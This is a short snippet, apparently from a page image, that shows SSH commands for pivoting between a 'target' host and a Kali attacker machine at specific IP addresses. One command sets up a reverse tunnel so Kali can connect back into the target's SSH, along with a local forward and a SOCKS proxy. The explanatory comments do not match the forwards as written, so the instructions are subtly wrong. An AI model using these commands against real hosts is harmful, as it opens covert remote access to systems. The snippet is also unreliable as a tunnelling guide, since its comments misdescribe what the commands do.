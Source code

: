 ```bash
ssh -N -L 4444:104.55.222.106:22 -R 5555:localhost:22 -D 1080 kaliuser@102.214.90.13
```


Then from **Kali (102.214.90.13)**:

```bash
ssh -p 5555 localhost   # connect back to target's SSH
```

And from **target (104.55.222.106)**:

```bash
ssh -p 4444 localhost   # tunnel to Kali's SSH
```
